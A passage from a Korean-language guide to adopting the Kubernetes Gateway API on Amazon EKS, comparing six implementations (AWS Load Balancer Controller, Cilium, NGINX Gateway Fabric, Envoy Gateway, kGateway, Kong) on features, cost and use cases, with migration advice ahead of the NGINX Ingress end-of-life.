Gateway API는 `weight` 필드를 통해 어노테이션 없이 Canary 배포를 지원합니다. NGINX Ingress의 `nginx.ingress.kubernetes.io/canary` 어노테이션 조합보다 간결하고 이식성이 높습니다.
:::

## 4. Gateway API 구현체 비교 - AWS Native vs Open Source

이 섹션에서는 6가지 주요 Gateway API 구현체를 상세히 비교합니다. 각 솔루션의 특징, 강점, 약점을 파악하여 조직에 최적의 선택을 할 수 있도록 돕습니다.

:::note Kong의 위치 — 정책 모델과 AI Gateway 구분
Kong은 OpenResty(NGINX + Lua) 기반의 성숙한 API 게이트웨이로, KIC(Kong Ingress Controller)가 Gateway API Standard 채널의 Core 수준에 적합(conformant)합니다. 다만 인증·Rate Limiting·IP 제어 등 대부분의 L7 정책은 Gateway API 네이티브 리소스가 아닌 **KongPlugin CRD**로 구현합니다(100+ 플러그인 생태계). 또한 Kong의 **AI Gateway**는 외부 LLM 프로바이더를 프록시하는 **LLM API 게이트웨이**로, 이 가이드가 다루는 클러스터 내 추론 Pod 라우팅(Gateway API Inference Extension, kgateway 계열)과는 **다른 계층**입니다. 표에서는 이 구분을 명시적으로 반영합니다.
:::

### 4.1 솔루션 한눈에 보기

상세 비교에 들어가기 전에, 6개 솔루션의 데이터플레인·적합 시나리오·강점·주의점을 카드로 요약합니다. 큰 그림을 먼저 파악한 뒤 아래 매트릭스에서 세부 항목을 확인하는 순서를 권장합니다.

<SolutionSelectorCards />

### 4.2 솔루션 개요 비교

다음 매트릭스는 6가지 Gateway API 구현체의 핵심 특징, 제약사항, 적합한 사용 사례를 비교합니다.

<SolutionOverviewMatrix />

### 4.3 기능 비교 매트릭스

다음은 6가지 솔루션의 종합 비교표입니다. 이 표를 통해 각 솔루션의 강점과 약점을 한눈에 파악할 수 있습니다.

<FeatureComparisonMatrix />

### 4.4 NGINX 기능 매핑

NGINX Ingress Controller에서 사용하던 8가지 주요 기능을 각 Gateway API 구현체에서 어떻게 구현하는지 비교합니다.

<FeatureMappingTable />

**범례**:
- ✅ 네이티브 지원 (별도 도구 불필요)
- ⚠️ 부분 지원 또는 추가 설정 필요
- ❌ 미지원 (별도 솔루션 필요)

### 4.5 구현 난이도 비교

<DifficultyComparisonTable />

### 4.6 비용 영향 분석

<CostComparisonTable />

:::tip 비용 최적화 팁
- **WAF 기능이 3개 이상 필요하면** AWS Native가 비용 대비 효율적입니다. 단일 WebACL에 여러 규칙을 묶어 관리할 수 있습니다
- **1-2개만 필요하면** 오픈소스 솔루션(Cilium, Envoy Gateway)에서 추가 비용 없이 구현 가능합니다
- **성능 민감 워크로드**는 오픈소스가 유리합니다. WAF 규칙 평가 지연 없이 커널/eBPF 레벨에서 처리됩니다
- **Lambda Authorizer 사용 시** 콜드스타트로 인한 p99 지연 급증에 주의하세요. Provisioned Concurrency 설정을 검토하세요
:::

### 4.7 기능별 구현 코드 예제

다음 8가지 기능을 6개 구현체별 YAML 예제로 구현하는 방법은 별도 쿡북 문서로 제공합니다. 본 가이드는 비교·선정에 집중하고, 실제 매니페스트는 쿡북에서 참조하세요.

| # | 기능 | 표준 여부 |
|---|------|----------|
| 1 | 인증 (Basic Auth 대체) | 구현체별 상이 |
| 2 | Rate Limiting | 구현체별 상이 |
| 3 | IP 제어 (IP Allowlist) | 구현체별 상이 |
| 4 | URL Rewrite | Gateway API v1 표준 |
| 5 | Header 조작 | Gateway API v1 표준 |
| 6 | 세션 어피니티 (Cookie-based) | 구현체별 상이 |
| 7 | 요청 본문 크기 제한 | 구현체별 상이 |
| 8 | 커스텀 에러 페이지 | 구현체별 상이 |

:::tip 구현 예제 전체 보기
각 기능의 AWS LBC·Cilium·NGINX GF·Envoy Gateway·kGateway별 YAML 매니페스트는 **[기능별 구현 쿡북](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/feature-implementation-cookbook)**에서 확인하세요.
:::


### 4.8 경로 선택 의사결정 트리

다음 의사결정 트리를 통해 조직에 최적의 솔루션을 선택할 수 있습니다.



### 4.9 시나리오별 권장 경로

다음은 일반적인 조직 시나리오에 따른 권장 솔루션입니다.

<ScenarioRecommendationTable />

---

## 5. 벤치마크 비교 계획

6개 Gateway API 구현체의 객관적인 성능 비교를 위한 체계적인 벤치마크를 계획하고 있습니다. 처리량, 레이턴시, TLS 성능, L7 라우팅, 스케일링, 리소스 효율성, 장애 복구, gRPC 등 8개 시나리오를 동일한 EKS 환경에서 측정합니다.

:::info 벤치마크 상세 계획
테스트 환경 설계, 시나리오 상세, 측정 지표 및 실행 계획은 **[Gateway API 구현체 성능 벤치마크 계획](/docs/benchmarks/gateway-api-benchmark)**에서 확인할 수 있습니다.
:::

---

## 6. 결론 및 향후 로드맵

### 6.1 결론

<RouteRecommendationTable />

위 표를 기반으로 조직 환경에 맞는 솔루션을 선택하세요.

<Tabs>
  <TabItem value="aws" label="AWS 올인 환경" default>

**AWS Native (LBC v3)** — 운영 부담 최소화, ALB/NLB 관리형 특성 활용, SLA 보장, AWS WAF/Shield/ACM 통합. 성능보다 안정성과 자동 스케일링이 중요한 환경에 최적.

  </TabItem>
  <TabItem value="cilium" label="고성능 + 관측성">

**Cilium Gateway API** — 초저지연 (P99 10ms 미만), eBPF 기반 네트워킹, Hubble L7 가시성, ENI 모드 VPC 네이티브 통합. 고성능과 서비스 메시 통합이 필요한 환경에 최적.

  </TabItem>
  <TabItem value="nginx" label="NGINX 경험 활용">

**NGINX Gateway Fabric** — 기존 NGINX 지식 활용, 검증된 안정성, F5 엔터프라이즈 지원, 멀티클라우드. 빠른 전환이 필요한 NGINX 경험 팀에 최적.

  </TabItem>
  <TabItem value="envoy" label="CNCF 표준">

**Envoy Gateway** — CNCF 표준, Istio 호환, 풍부한 L7 기능 (mTLS, ExtAuth, Rate Limiting, Circuit Breaking). 서비스 메시 확장 계획이 있는 환경에 최적.

  </TabItem>
  <TabItem value="kgateway" label="AI/ML 통합">

**kGateway** — 통합 게이트웨이 (API+메시+AI+MCP), AI/ML 워크로드 라우팅, Solo.io 엔터프라이즈 지원. AI/ML 특화 라우팅이 필요한 환경에 최적.

  </TabItem>
  <TabItem value="kong" label="엔터프라이즈 API 관리">

**Kong** — OpenResty(NGINX + Lua) 기반, 100+ KongPlugin 생태계, 엔터프라이즈 24x7 지원(Enterprise/Konnect). 풍부한 플러그인 기반 API 관리와 기존 Kong 자산을 활용하는 환경에 최적. Kong AI Gateway는 외부 LLM 프로바이더를 프록시하는 LLM API 게이트웨이로, 클러스터 내 추론 Pod 라우팅(kgateway 계열)과는 용도가 구분됩니다. 대부분의 L7 정책이 Gateway API 네이티브가 아닌 KongPlugin으로 구성되는 점을 고려해야 합니다.

  </TabItem>
  <TabItem value="hybrid" label="하이브리드 노드">

**Cilium Gateway API + llm-d** — EKS Hybrid Nodes로 클라우드와 온프레미스 GPU 노드를 통합 운영하는 경우, Cilium을 단일 CNI로 사용하면 CNI 단일화 + Hubble 통합 관측성 + Gateway API 내장의 이점을 확보할 수 있습니다. AI 추론 트래픽은 llm-d가 KV Cache-aware 라우팅으로 최적화합니다. 자세한 내용은 [Cilium ENI + Gateway API 심화 가이드 — 섹션 9](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/cilium-eni-gateway-api#9-하이브리드-노드-아키텍처와-aiml-워크로드)를 참조하세요.

  </TabItem>
</Tabs>

### 6.2 향후 확장 로드맵

<RoadmapTimeline />

### 6.3 핵심 메시지

:::info
**2026년 3월 NGINX Ingress EOL 이전에 마이그레이션을 완료하여 보안 위협을 원천 차단하세요.**

Gateway API는 단순한 Ingress 대체가 아닌, 클라우드 네이티브 트래픽 관리의 미래입니다.
- **역할 분리**: 플랫폼 팀과 개발 팀의 명확한 책임 분리
- **표준화**: 벤더 종속성 없는 이식 가능한 구성
- **확장성**: East-West, 서비스 메시, AI 통합까지 확장
:::

**지금 시작하세요:**
1. 현재 Ingress 인벤토리 수집 — [마이그레이션 실행 전략](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/migration-execution-strategy) 참조
2. 워크로드에 맞는 솔루션 선택 (섹션 4)
3. PoC 환경 구축 — [마이그레이션 실행 전략](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/migration-execution-strategy) 참조
4. 점진적 마이그레이션 실행 — [마이그레이션 실행 전략](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/migration-execution-strategy) 참조

**추가 리소스:**
- [Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/)
- [Cilium 공식 문서](https://docs.cilium.io/)
- [NGINX Gateway Fabric](https://docs.nginx.com/nginx-gateway-fabric/)
- [Envoy Gateway](https://gateway.envoyproxy.io/)
- [Kong Ingress Controller](https://developer.konghq.com/kubernetes-ingress-controller/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)

---

## 관련 문서

### 하위 문서 (심화 가이드)

이 가이드의 주제별 심화 내용은 별도 하위 문서로 제공됩니다.

- **[1. GAMMA Initiative — 서비스 메시 통합의 미래](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/gamma-initiative)** — GAMMA 개요, East-West 트래픽 관리, 서비스 메시 통합 아키텍처, 구현체별 지원 현황
- **[2. Cilium ENI 모드 + Gateway API 심화 구성](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/cilium-eni-gateway-api)** — ENI 모드 아키텍처, 설치/구성, 성능 최적화(eBPF, XDP), Hubble 관측성, BGP Control Plane v2, 하이브리드 노드 아키텍처
- **[3. 마이그레이션 실행 전략](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/migration-execution-strategy)** — 5-Phase 마이그레이션 프로세스, CRD 설치, 검증 스크립트, 트러블슈팅 가이드
- **[4. 기능별 구현 쿡북](/docs/eks-best-practices/networking-performance/gateway-api-adoption-guide/feature-implementation-cookbook)** — 인증·Rate Limiting·IP 제어·URL Rewrite·헤더·세션 어피니티·본문 크기·에러 페이지를 6개 구현체별 YAML로 구현하는 레퍼런스

### 관련 문서 (Agentic AI 플랫폼)

- **[티어드 게이트웨이 아키텍처](/docs/agentic-ai-platform/model-serving/inference-routing/tiered-gateway-architecture)** — Tier 1(이 문서)·Tier 2 ①추론 라우팅·②LLM API 게이트웨이·Agent Data Plane의 전체 지도와 용어 정의(단일 정의처)
- **[추론 게이트웨이 레퍼런스](/docs/agentic-ai-platform/reference-architecture/inference-gateway)** — Agentic 워크로드를 위한 Tier 2 추론 게이트웨이 계층(KV 캐시 인지 라우팅, 모델 엔드포인트 관리). 이 문서(Tier 1 범용 게이트웨이)와 함께 2-Tier로 구성
- **[Inference Gateway 배포 가이드](/docs/agentic-ai-platform/reference-architecture/inference-gateway/setup)** — 추론 게이트웨이 Helm 배포·HTTPRoute·OTel 구성

### 관련 카테고리

- [2. CoreDNS 모니터링 & 최적화](/docs/eks-best-practices/networking-performance/coredns-monitoring-optimization)
- [3. East-West 트래픽 최적화](/docs/eks-best-practices/networking-performance/east-west-traffic-best-practice)
- [4. Karpenter 초고속 오토스케일링](/docs/eks-best-practices/resource-cost/karpenter-autoscaling)

### 외부 참고 자료

- [Kubernetes Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/)
- [Gateway API Inference Extension](https://gateway-api-inference-extension.sigs.k8s.io/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)
- [Cilium Gateway API 문서](https://docs.cilium.io/en/stable/network/servicemesh/gateway-api/gateway-api/)
- [Kong Ingress Controller](https://developer.konghq.com/kubernetes-ingress-controller/)
